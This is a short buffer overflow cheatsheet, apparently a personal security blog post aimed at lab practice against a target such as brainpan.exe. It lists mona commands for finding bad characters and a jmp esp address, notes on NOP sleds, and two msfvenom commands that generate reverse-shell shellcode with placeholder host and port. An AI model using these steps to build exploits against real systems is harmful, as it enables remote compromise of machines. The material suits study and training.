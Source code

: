 ```yaml
---
title: "Buffer Overflow Cheatsheet"
date: 2021-12-01T00:20:30+01:00
categories:
  - Resources
tags:
  - Bufferoverflows
  - Cheatsheet
share: false
#layout: single
classes: wide
excerpt_separator: <!--more-->
---
```

A handly list of the most typical commands used in buffer overflows.

<!--more-->

### Take control of EIP
First, lets use some [skeletons](https://github.com/acc3ssp0int-official/buffer-overflow-skeleton-scripts) to overwrite the EIP  

Then, let's generate a pattern to identify the offset  
`Todo: complete msfpatterncreate command and msfpatternfind`


### After getting control of EIP
Set a **working folder**  
`!mona config -set workingfolder C:\Users\shroudri\%p`

Generate bytearray  
`!mona bytearray`

Generate bytearray excluding a certain badchar\
`!mona bytearray -cpb "\x00"`
`!mona bytearray -cpb "\x00\x0a\etc"`



Compare ESP with generated bytearray to check for badchars automatically  
`!mona compare -f C:\Users\shroudri\%p\bytearray.bin -a <ESP_ADRESS> #(e.g 00F23930)`

Generate revshell with msfvenom  
> msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00" EXITFUNC=thread`  
>msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00\x0a\xaf" EXITFUNC=thread`  


List all available programs        
`!mona modules`

### Next step: We want to make EIP point to ESP
This command will find an instruction within a program to jump to the ESP (FFE4 == jmp_esp)   
`!mona find -s "\xFF\xE4" -m brainpan.exe`

Because shikata_ga_nai is being used, a few NOPs must be introduced between EIP and Shellcode   
`NOPS= "x90"*16`